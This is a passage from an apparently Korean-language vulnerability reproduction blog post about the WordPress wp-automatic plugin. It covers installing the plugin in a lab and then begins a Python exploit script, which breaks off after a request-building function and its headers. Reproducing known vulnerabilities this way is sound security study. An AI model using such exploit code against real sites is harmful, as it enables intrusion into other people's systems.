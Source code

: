 wp-automatic.zip 파일을 파일 선택 기능을 이용해 추가해준다.

![image.png](assets/posts/one-day/2024-11-07/image-003.png)

![image.png](assets/posts/one-day/2024-11-07/image-004.png)

플러그인을 설치하고, 활성화 시켜준다.


### **exploit code**

```python
import requests

import sys

def makeRequest(payload, hash, url):

host = url.split('/', 3)[2]

headers = {

'Host': host,

'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',

'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',

'Accept-Language': 'en-US,en;q=0.5',
```